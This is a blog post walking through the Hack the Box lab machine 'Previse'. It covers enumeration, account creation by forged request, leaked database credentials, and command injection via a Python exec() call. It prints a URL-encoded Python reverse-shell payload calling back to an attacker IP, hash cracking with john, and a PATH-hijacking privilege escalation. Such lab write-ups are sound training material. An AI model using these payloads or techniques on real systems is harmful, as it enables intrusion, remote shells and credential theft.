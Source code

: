 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
date = 2022-01-08T15:16:55Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/08/previse.png"
slug = "hack-the-box-previse"
tags = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
title = "Hack the Box - Previse"

+++


Welcome back! Today's Hack the Box write-up is for the machine Previse. This machine is listed as an easy Linux machine. Let's get to it!

As usual, we start with a full `nmap` scan. Here are our results.

```
Nmap scan report for 10.10.11.104
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two ports available, so it looks like our path with be via web exploit of some type. So we'll load up `Burpsuite` and see what's being hosted on port 80.

We see that a basic username / password landing page. Before we start digging into the web requests, we'll try to enumerate any additional files or directories with `gobuster`. 

Command:
`gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

{{< figure src="__GHOST_URL__/content/images/2021/08/image-37.png" >}}

We see a bunch of files. We check them all and find the `nav.php` has some interesting links.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-38.png" >}}

When trying to access all of these resources, we need an account. Luckily for us, we have a create account page! However, the page isn't accessable via the browser. When we view the `HTTP` request, we see that is actually something we can access.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-39.png" >}}

Given that we can see the source for this request, we know the parameters we need to `POST` in order to create an account.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-40.png" >}}

So we will craft the request we need to supply a `username`, `password` and `confirmation` password. We also need to be sure to add our `Content-Type` of `application/x-www-form-urlencoded`. All together, we have the following request.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-41.png" >}}

We send the request and we get back a success message!

{{< figure src="__GHOST_URL__/content/images/2021/08/image-42.png" >}}

We can now log into the site. When we start looking around we find the file `SITEBACKUP.ZIP` in the files section. We download the file and unzip it to find exactly what we think, a backup of the site. We see in `config.php` a username and password.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-43.png" >}}

We still need a username to go with the password. Now, if we look around the site a bit more we have a Request Log Data section. If we download the file, we can see the users associated to logging in, this could give us a user to `SSH` with.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-44.png" >}}

Unable to login with those credentials. Now as we continue to sift through the files, we find a gem. A `Python exec()` call in the `logs.php` file.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-45.png" >}}

This is not a properly sanatized output, meaning we can leverage it to break things. More on [Command Injection here](https://portswigger.net/web-security/os-command-injection).

The key thing to remember here is that `Python` is calling the `exec()` function. So any injection we want to do, has to be in 'code'. More on that [here](https://www.stackhawk.com/blog/command-injection-python/).

We will use a `python` 'one-liner' to gain a remote shell. Take your pick from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). Just be to use URL encode the request!

Here's our request data being sent.

```
delim=comma;python3+-c+'a%3d__import__%3bs%3da("socket")%3bo%3da("os").dup2%3bp%3da("pty").spawn%3bc%3ds.socket(s.AF_INET,s.SOCK_STREAM)%3bc.connect(("10.10.14.99",4242))%3bf%3dc.fileno%3bo(f(),0)%3bo(f(),1)%3bo(f(),2)%3bp("/bin/bash")'
```
We sping up a `netcat` listener on port `4242`.

Command:
`nc -lvnp 4242`

Now ww send our request (a few times), and eventually get a response back on our `netcat` listener

{{< figure src="__GHOST_URL__/content/images/2021/08/image-46.png" >}}

Before we start enumerating any further, we should check to see if we have `mysql` access. We have credentials from before that we should try to leverage and see what we have access to.

Command:
`mysql -u root -p'mySQL_p@ssw0rd!:)'`

{{< figure src="__GHOST_URL__/content/images/2021/08/image-47.png" >}}

Sure enough, we have access! Now we can start sifting through the database.

Commands:
```
use previse;
show tables;
select * from accounts;
```

{{< figure src="__GHOST_URL__/content/images/2021/08/image-48.png" >}}

Now we see our username and hashes. We'll copy them out to crack, we really just want `m4lwhere` in particular.

Command:
`echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > m4lwhere.hash`

Now we can run it against `rockyou.txt` to see what we might be able to find. In this case I'll use `john`.

Command:
`john -w=/usr/share/wordlists/rockyou.txt m4lwhere.hash --format=md5crypt-long`

{{< figure src="__GHOST_URL__/content/images/2021/08/image-49.png" >}}

A few minutes later we get a match `ilovecody1122235!`. Now let's see if we can `SSH` with this password.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-50.png" >}}

Sure enough, we are in! Let's snag our `user.txt` flag and find a way to root! The next thing we check is `sudo -l`.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-51.png" >}}

It looks like we have the ability to run a backup script.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-52.png" >}}

The problem with this script is that its just saying `gzip`. It's not giving a specific path to `gzip`. This is `Path Hijacking` and it's the reason why you should ensure your paths are explicit and narrow as can be. What we'll do is create our own `gzip` file. This will just be a simple file to `cat` our the `root.txt` flag.

Step one - create a file in a temporary directory in `tmp`. We do it this way so that we don't ruin the box for others. 

Command:
`mkdir /tmp/rf`
`cd /tmp/rf`

Step two - create our 'malicous' `gzip` file.

Command:
`echo 'cat /root/root.txt > /tmp/rf/flag.txt' > gzip`
`chmod +x gzip`

Step three - we will add our temporary path to the enviornmental variables.

Command:
`export PATH=/tmp/rf:$PATH`

You can see that our temporary path has been pre-pended to our `PATH`. This means that the Linux Operating System will check this path before all others for any executable we are running. In this case, the evil `gzip` file.

Now we simply run our privledged script.

Command:
`sudo /opt/scripts/access_backup.sh`

{{< figure src="__GHOST_URL__/content/images/2021/08/previseroot.gif" >}}

We get a text file with the `root.txt` flag inside! Feel free to send respect my way if you found this write-up helpful.

HTB Profile - https://app.hackthebox.eu/profile/95635



